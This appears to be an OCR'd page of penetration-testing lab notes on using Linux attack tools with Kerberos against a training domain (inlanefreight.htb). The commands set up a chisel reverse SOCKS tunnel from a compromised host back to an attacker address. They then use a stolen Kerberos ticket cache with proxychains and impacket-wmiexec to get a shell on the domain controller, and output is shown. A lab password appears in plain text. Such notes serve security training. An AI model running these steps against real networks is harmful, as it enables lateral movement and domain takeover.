 ## Using Linux Attack Tools with Kerberos
```bash
# modify host file to 
cat /etc/hosts
172.16.1.10 inlanefreight.htb   inlanefreight   dc01.inlanefreight.htb  dc01
172.16.1.5  ms01.inlanefreight.htb  ms01

cat /etc/proxychains.conf
[ProxyList]
socks5 127.0.0.1 1080
```

```bash
wget https://github.com/jpillora/chisel/releases/download/v1.7.7/chisel_1.7.7_linux_amd64.gz
gzip -d chisel_1.7.7_linux_amd64.gz
mv chisel_* chisel && chmod +x ./chisel
sudo ./chisel server --reverse 

2022/10/10 07:26:15 server: Reverse tunneling enabled
2022/10/10 07:26:15 server: Fingerprint 58EulHjQXAOsBRpxk232323sdLHd0r3r2nrdVYoYeVM=
2022/10/10 07:26:15 server: Listening on http://0.0.0.0:8080
```
Connect to MS01:
```bash
xfreerdp /v:10.129.204.23 /u:david /d:inlanefreight.htb /p:Password2 /dynamic-resolution
```
Execute chisel from MS01:
```cmd
c:\tools\chisel.exe client 10.10.14.33:8080 R:socks

2022/10/10 06:34:19 client: Connecting to ws://10.10.14.33:8080
2022/10/10 06:34:20 client: Connected (Latency 125.6177ms)
```
Finally, we need to transfer Julio's ccache file from LINUX01 and create the environment variable KRB5CCNAME with the value corresponding to the path of the ccache file.
## Impacket with proxychain ans kerberos
```bash
proxychains impacket-wmiexec dc01 -k

[proxychains] config file found: /etc/proxychains.conf
[proxychains] preloading /usr/lib/x86_64-linux-gnu/libproxychains.so.4
[proxychains] DLL init: proxychains-ng 4.14
Impacket v0.9.22 - Copyright 2020 SecureAuth Corporation

[proxychains] Strict chain  ...  127.0.0.1:1080  ...  dc01:445  ...  OK
[proxychains] Strict chain  ...  127.0.0.1:1080  ...  INLANEFREIGHT.HTB:88  ...  OK
[*] SMBv3.0 dialect used
[proxychains] Strict chain  ...  127.0.0.1:1080  ...  dc01:135  ...  OK
[proxychains] Strict chain  ...  127.0.0.1:1080  ...  INLANEFREIGHT.HTB:88  ...  OK
[proxychains] Strict chain  ...  127.0.0.1:1080  ...  dc01:50713  ...  OK
[proxychains] Strict chain  ...  127.0.0.1:1080  ...  INLANEFREIGHT.HTB:88  ...  OK
[!] Launching semi-interactive shell - Careful what you execute
[!] Press help for extra shell commands
C:\>whoami
inlanefreight\julio
```
## evil-winrm
```bash
sudo apt-get install krb5-user -y

# Default Kerberos Version 5 realm
# INLANEFREIGHT.htb
# The Kerberos servers can be empty.
```